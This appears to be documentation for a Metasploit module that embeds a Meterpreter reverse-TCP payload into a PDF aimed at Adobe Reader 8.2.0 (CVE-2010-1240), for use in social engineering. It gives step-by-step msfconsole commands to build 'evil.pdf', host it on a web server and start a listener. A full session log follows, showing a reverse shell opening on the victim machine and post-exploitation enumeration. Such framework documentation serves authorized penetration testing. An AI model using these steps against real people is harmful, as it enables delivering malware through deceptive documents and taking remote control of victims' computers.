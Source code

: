 ## Vulnerable Application

This module embeds a Metasploit payload into an existing PDF file. The resulting PDF can be sent to a target as part of a social engineering attack.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-8-2-0)

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Options

  **EXENAME**

  The Name of payload exe.

  **FILENAME**

  The output filename.

  **INFILENAME**

  The Input PDF filename.

  **LAUNCH_MESSAGE**

  The message to display in the `File:` area of the PDF.

## Scenarios

### Adobe Reader 8.2.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

    [*] Reading in '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Parsing '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Using 'windows/meterpreter/reverse_tcp' as payload...
    [+] Parsing Successful. Creating 'evil.pdf' file...
    [+] evil.pdf stored at /root/.msf4/local/evil.pdf
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf
    [*] exec: cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf

  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1121) at 2019-12-09 14:17:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

      Installed Applications
      ======================

      Name                Version
      ----                -------
      Adobe Reader 8.2.0  8.2.0



    [+] Results stored in: /root/.msf4/loot/20191209141758_default_192.168.1.5_host.application_783490.txt
      ```
